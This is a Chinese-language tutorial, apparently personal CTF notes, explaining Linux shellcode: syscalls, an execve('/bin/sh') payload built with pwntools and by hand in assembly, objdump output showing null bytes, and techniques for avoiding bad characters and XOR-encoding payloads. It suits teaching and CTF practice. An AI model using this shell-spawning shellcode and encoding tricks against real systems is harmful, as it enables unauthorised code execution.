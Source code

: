 ### 二. shellcode

1. shellcode 是什么
2. 系统调用
3. shellcode 的编写与获得
4. shellcode 变异

#### 1. 啥是shellcode

shellcode 泛指在目标进程空间中, 运行的一段自定义代码。因为攻击者往往会设计通过shellcode获得一个可交互式的shell, 因此得名。

#### 2. 系统调用

说到shellcode则必须要知道系统调用的原理。计算机的CPU是以通过读取在RAM中存储的指令机器码, 根据事先定义好的规则, 来操作各个寄存器将数据送往目标运算模块, 再将运算结果返回到某个目标寄存器中。这里需要注意的有两点:

1. 机器码本身是各种十六进制的数字, 在不同的架构上可能有细节的区别, 比如x86-32和x86-64, 如:

mov eax, 0x1      # 32位 b8 01 00 00 00
mov rax, 0x1      # 64位 48 c7 c0 01 00 00 00

48代表用16位格式读取, c7是操作码, c0是rax寄存器, 01 00 00 00 是小端存储的0x1数据。需要记得64位的通常可以兼容32位的汇编代码执行。

简单来说, CPU是无法区分数据和代码的, 因此只要是在可执行页上的东西, eip/rip指向了, 就可以执行。

2. 所有执行的操作都是事先定义好的, 有公开的编码表, 对应读取某个操作码需要根据标识符和一些东西来确定执行的操作。
http://ref.x86asm.net/coder64.html

操作系统的进程空间可以分为用户空间与内核空间, 所有的系统调用的执行均在内核空间中进行。

系统调用通常由系统中断触发时, eax寄存器所带有的值来确定进行何种系统调用。简单来说, 系统调用是一种最底层的功能封装, 将某种功能的实现代码封装起来, 用系统调用的方式来触发函数功能, http://lxr.linux.no/linux+v3.2/arch/x86/include/asm/unistd_64.h , 该网址提供了x86-64架构的系统调用表, http://lxr.linux.no/linux+v3.2/arch/x86/include/asm/unistd_32.h 则是32位的调用表(https://blog.csdn.net/xiaominthere/article/details/17287965)。两种调用的方式有一些区别:

x86-32:

mov eax, 61 # chroot调用
lea ebx, word ptr string  # 指向某个字符串的指针
int 0x80  # 中断表中的系统调用

x86-64

mov rax, 161  # chroot调用
lea rbx, dword ptr string # 指向字符串的指针
syscall # 系统调用

#### 3. shellcode的编写
https://docs.pwntools.com/en/stable/

我一般只用pwntools和手撸=。=, 所以先简要介绍pwntools

pwntools是一个专门快速写poc或者exp或者打ctf做pwn题用的工具, 集成了许多功能, 这里我们先介绍shellcode的获取。

```python
from pwn import *

context(os='linux', arch='amd64', bits=64, log_level='debug')  # 设置目标架构, x86是i386
shellcode = shellcraft.sh() # 获得一个最简单的shellcode
print(disasm(asm(shellcode))) # 打印出来
```

这里asm(shellcode)就是我们需要的二进制数据。pwntools会对汇编代码进行编译并将结果取回返回给我们。除了sh(), shellcraft内还集成了其他的系统调用功能(可以自己慢慢试)。

手写的话其实大同小异, 关键在于你要清楚自己需要作什么操作, 给哪个寄存器设置什么值, 函数调用需要的参数如何传递以及参数格式。https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

以下是一个简单的shellcode.s
```armasm
.global _start
_start:
.intel_syntax noprefix
        mov rax, 59
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0
        syscall
binsh:
        .string "/bin/sh"
```
使用gcc进行编译, 注意编译选项-nostdlib, 该选项将让该文件不与系统库文件进行链接, 以保证纯净。

```bash
gcc -nostdlib -static shellcode.s -o shellcode
```

使用objdump可以将该编译文件的.text段(也就是汇编代码段内容)获取。
```bash
objcopy --dump-section .text=shellcode.md shellcode
```

#### 4. shellcode变异

但是通常情况下, 我们会遇到许多问题, 比如最简单的情况, 如果目标可执行文件用read()接受输入, 则会遇到'\n'截断, 即'\x0a'或是'\x00', 这要求我们的shellcode不能带有这些特殊字符。我们需要了解如何变异shellcode。

前面给出了一个shellcode样例, 但是这个东西编译出来是有问题的

```armasm
bluecat@kali:~/catroot/pwn/shellcode$ objdump -M intel -d shellcode_01_elf

shellcode_01_elf：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 c7 c0 3b 00 00 00    mov    rax,0x3b
  401007:       48 8d 3d 10 00 00 00    lea    rdi,[rip+0x10]        # 40101e <binsh>
  40100e:       48 c7 c6 00 00 00 00    mov    rsi,0x0
  401015:       48 c7 c2 00 00 00 00    mov    rdx,0x0
  40101c:       0f 05                   syscall

000000000040101e <binsh>:
  40101e:       2f                      (bad)
  40101f:       62                      (bad)
  401020:       69                      .byte 0x69
  401021:       6e                      outs   dx,BYTE PTR ds:[rsi]
  401022:       2f                      (bad)
  401023:       73 68                   jae    40108d <binsh+0x6f>
```

常用的变异手段有:

xor rax, rbx          异或
mov al, x             用低位/高位赋值操作, 或16位、8位赋值操作
mov rax, x-n          先减后加
add rax, n
inc rax               加减1操作
dec rax
mov rax, [addr]       事先从源代码中搜索是否有存在相近数值的地址, 从那个地方取值


还有就是在运行过程中将真实shellcode释放的, 有点类似加壳或者压缩的方式。

[decode area]
[encode shellcode area]

在运行完decode部分代码之后, 真实的shellcode才会被还原。可以用异或运算壳, 或者是简单的加密计算壳(因为shellcode需要尽可能小, 当然如果空间允许, 想怎么写都行)
